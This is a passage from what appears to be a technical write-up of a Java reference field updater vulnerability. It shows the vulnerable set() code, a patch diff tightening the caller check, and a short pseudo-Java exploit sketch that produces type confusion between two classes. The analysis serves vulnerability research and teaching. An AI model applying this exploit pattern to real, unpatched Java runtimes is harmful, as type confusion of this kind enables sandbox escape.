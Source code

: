 ---------------------------------------------------------------------------
  1: public final void set(T obj, V newValue) {
  2:   accessCheck(obj);
  3:   valueCheck(newValue);
  4:    U.putObjectVolatile(obj, offset, newValue);
  5: }
  6:
  7: private final void accessCheck(T obj) {
  8:   if (!cclass.isInstance(obj))
  9:     throwAccessCheckException(obj);
 10: }
 11:
 12: private final void valueCheck(V v) {
 13:   if (v != null && !(vclass.isInstance(v)))
 14:     throwCCE();
 15: }
---------------------------------------------------------------------------

The first parameter of set(), obj, is the instance on which the reference
field has to be updated. The second parameter, newValue, is the new value
of the reference field. First, set() checks that obj is an instance of type
cclass (lines 2, 7-10). Then, set() checks that newValue is null or an
instance of vclass, representing the field type (lines 3, 12-15). If all
the checks pass, the _Unsafe_ class is used to put the new value at the
right offset in object obj (line 4).

The patch for the vulnerability is illustrated below.

---------------------------------------------------------------------------
 - this.cclass = (Modifier.isProtected(modifiers))
 -                ? caller : tclass;
 + this.cclass = (Modifier.isProtected(modifiers)
 +             && tclass.isAssignableFrom(caller)
 +             && !isSamePackage(tclass, caller))
 +                ? caller : tclass;
---------------------------------------------------------------------------

As we noticed earlier, the original code is not performing enough checks on
the caller object. In the patched version, the code now checks that tclass
is the same class as, a super-class or a super-interface of caller. How to
exploit this vulnerability becomes obvious and is illustrated below.

---------------------------------------------------------------------------
  1: class Dummy {
  2:   protected volatile A f;
  3: }
  4:
  5: class MyClass {
  6:   protected volatile B g;
  7:
  8:   main() {
  9:     m = new MyClass();
 10:     u = newUpdater(Dummy.class, A.class, "f");
 11:     u.set(m, new A());
 12:     println(m.g.getClass());
 13:   }
 14: }
---------------------------------------------------------------------------
